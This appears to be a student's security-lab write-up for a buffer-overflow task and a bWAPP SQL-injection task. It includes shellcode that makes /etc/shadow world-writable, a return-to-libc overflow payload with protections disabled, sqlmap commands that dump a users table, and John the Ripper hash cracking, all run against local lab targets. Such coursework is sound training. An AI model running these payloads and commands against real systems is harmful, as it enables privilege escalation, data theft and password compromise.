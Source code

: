 # Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

Description text (optional)

Step 1: I saved shell code in a file named : shell.c and vulnerable code in a file name code.c . After that, complie both of them 
```
gcc -g shell.c -o shell.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
gcc -g code.c -o code.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```

Step 2:  Turn off bash countermeasures of Ubuntu and Turn off address space layout radomization
```
sudo ln -sf /bin/zsh /bin/sh
sudo sysctl -w kernel.randomize_va_space=0
```

Step 3:  I will use system() to execute shell code in order to when i overflow the buffer memory , it will execute the shell code that in saved in code.out after compiling. So i need to save code.out to an evironment variable
``` 
  export MYYVAR="/home/seed/seclabs/lab/task1/shell.out"
```

Step 4: gdb -q code.out

Step 5 : start

Step 6: In this step, i will find the address of system , exit and my environment variable. exit() will consider argc as return address of system()

![image](https://github.com/user-attachments/assets/b5e22c0a-651e-451d-80e7-7d70c77d84a2)

Step 7: Now, i will conduct the attack by using this code: 
```
run $(python -c "print('a' * 20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x39\xdf\xff\xff')")
```
The first 20 bytes will overflow the buffer memory and the ebp, followed by the addresses i extract from gdb . And the result here: 

![image](https://github.com/user-attachments/assets/7ec7b66b-1632-4960-977d-6be74a316e8b)

output screenshot (optional)
Before conducting attack: The etc/shadow have privilege is 640 

![image](https://github.com/user-attachments/assets/8a7caf86-55e2-463b-b785-84186bc7655b)

After conducting attack: The etc/shadow have privilege is 777

![image](https://github.com/user-attachments/assets/758c2b57-05a7-4418-b805-66638791bdce)




**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

Step 1: Install SQL map from this link : https://github.com/sqlmapproject/sqlmap.git

Step 2: Install bWAPP by following the tutorial in this link: https://github.com/quang-ute/Security-labs/tree/main/Web-security/Vulnerable%20Web%20App

Step 3: Login and choose the bug:

![image](https://github.com/user-attachments/assets/e708c4d6-b51c-4125-8683-c5fa7692435c)

Step 4: Select movie and copy the url ( note that: delete query action ) : http://localhost:8025/sqli_2.php?movie=1

![image](https://github.com/user-attachments/assets/84ffb76e-4217-4558-9090-b022dcbdebbf)

![image](https://github.com/user-attachments/assets/3b315eed-2f9b-42ab-a9b7-0f0f7011b964)


Step 5: Open Developer Tool and get cookie value in tab Application

![image](https://github.com/user-attachments/assets/190e9138-8366-40a9-b277-d06cf45cb92d)


Step 6: cd to folder sqlmap and run the code : python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" --dbs --cookie="PHPSESSID=q9s62q6gaojhs1g2meag832sa3;security_level=0"


Step 7: Always type y and the terminal show all the databases

![image](https://github.com/user-attachments/assets/70c022fe-a3b0-4e75-8120-c3426bba3bfe)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:	

Step 1: Run this code to see all the tables of bWAPP database: sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP --tables --cookie="PHPSESSID=q9s62q6gaojhs1g2meag832sa3;security_level=0"

![image](https://github.com/user-attachments/assets/0280a6a8-e771-4df8-b6c4-aa1ece23bbae)

Step 2: Run this code see all the column of users table: python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP -T users --columns --cookie="PHPSESSID=q9s62q6gaojhs1g2meag832sa3;security_level=0"

![image](https://github.com/user-attachments/assets/972a52b4-b243-4366-a157-ad269d6a5530)

Step 3: Run this code to see all records in table user : python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP -T users --dump --cookie="PHPSESSID=q9s62q6gaojhs1g2meag832sa3;security_level=0"


![image](https://github.com/user-attachments/assets/3d8e083d-96d6-4559-9093-5d929c14d623)



**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

Step 1: Download john from this link : http://www.openwall.com/john/

Step 2: Take note hash password of one of users in file .txt . I will take note hash password of user A.I.M. in file psw.txt

![image](https://github.com/user-attachments/assets/02588425-132e-47a9-9a2e-e2f7c548ea63)

Step 3: Save file psw.txt in run folder of john folder i just download

Step 4: Open folder run in terminal and run : ./john --incremental psw.txt to decode hash password

![image](https://github.com/user-attachments/assets/94e403e4-b5d4-450b-b4d4-433ee7b269d1)


Step 5: Run ./john --show psw.txt to show the password after decoding 

![image](https://github.com/user-attachments/assets/7191dc20-af7d-421a-99de-e544d25e8338)


Step 6: Login successfull

![image](https://github.com/user-attachments/assets/451f1c76-f041-4061-88cf-d24e21f3ed6a)

![image](https://github.com/user-attachments/assets/2ca4bad0-fca6-4020-9f79-4ce3c601375b)




